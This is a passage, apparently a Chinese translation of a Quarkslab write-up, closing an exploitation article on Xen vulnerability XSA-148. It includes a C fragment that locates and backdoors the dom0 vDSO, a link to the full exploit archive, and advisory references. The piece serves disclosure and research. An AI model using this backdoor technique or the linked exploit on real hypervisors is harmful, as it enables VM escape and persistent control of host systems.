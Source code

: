 这样,我们可以如同 scumjr 的 SMM后门[5]一样,在 dom0 的 vDSO 中设置后门了。在他的博文中说,vDSO 库由 Linux 内核映射到每个用户进程,很容易发现它。因此,我们只需要解析一次页目录,搜索 vDSO 并给它植入一个后门。

```
if(start_f->flags & SIF_INITDOMAIN)
{
        DEBUG("dom0!");
        dump_page_buff(page, buff);
        tmp = find_vdso_into_L4(page, (pgd_t*) buff);

        if(tmp != 0)
        {
                DEBUG("dom0 vdso : 0x%x", tmp);
                patch_vdso(tmp);
                DEBUG("patch.");
                break;
        }
}
```

* 演示:<https://asciinema.org/a/cwm26vzbjqx0d3eseic51igho>
* 完整利用:<http://blog.quarkslab.com/resources/2016-07-12_xsa-148/code/xsa148_exploit.tar.gz>

# 结论

这个可能是 Xen 有史以来最严重的漏洞,它在被发现前已经存在了7年。如本文所述,利用它来实现 dom0 内代码执行并不难。可以做比修补 vDSO 更多的事,如栾尚聪选择的是超级调用页。

原来这第二部分应该是最后一篇……但我们最近发现了一个新的漏洞可以让客户机逃逸。相关公告已经在昨天公开披露(XSA-182(9),CVE-2016-6258(10)),下篇我们将介绍如何编写一个完整的利用。敬请关注!

(1) (1, 2) <http://xenbits.xen.org/xsa/advisory-148.html>

(2) <http://download.intel.com/design/processor/manuals/253668.pdf>

(3) <http://wiki.xen.org/wiki/X86_Paravirtualised_Memory_Management>

(4) <https://github.com/QubesOS/qubes-secpack/blob/master/QSBs/qsb-022-2015.txt>

(5) <https://scumjr.github.io/2016/01/10/from-smm-to-userland-in-a-few-bytes/>

(6) (1, 2) <https://conference.hitb.org/hitbsecconf2016ams/sessions/advanced-exploitation-xen-hypervisor-vm-escape/>

(7) <https://www.blackhat.com/us-16/briefings.html#ouroboros-tearing-xen-hypervisor-with-the-snake>

(8) <http://blog.quarkslab.com/xen-exploitation-part-1-xsa-105-from-nobody-to-root.html>

(9) <http://xenbits.xen.org/xsa/advisory-182.html>

(10) <http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6258>

[1]: https://p1.ssl.qhimg.com/t01cc39f6c4744f14d5.png
[2]: https://p1.ssl.qhimg.com/t0191f3c2792bba6bd5.png
[3]: https://p5.ssl.qhimg.com/t0192921f0ec6d29bc3.png
[4]: https://p2.ssl.qhimg.com/t019c7724c77a43882b.jpg
[5]: https://p3.ssl.qhimg.com/t01bb8352a38dc19d64.png
[6]: https://p4.ssl.qhimg.com/t01a55b8953562a62ed.png

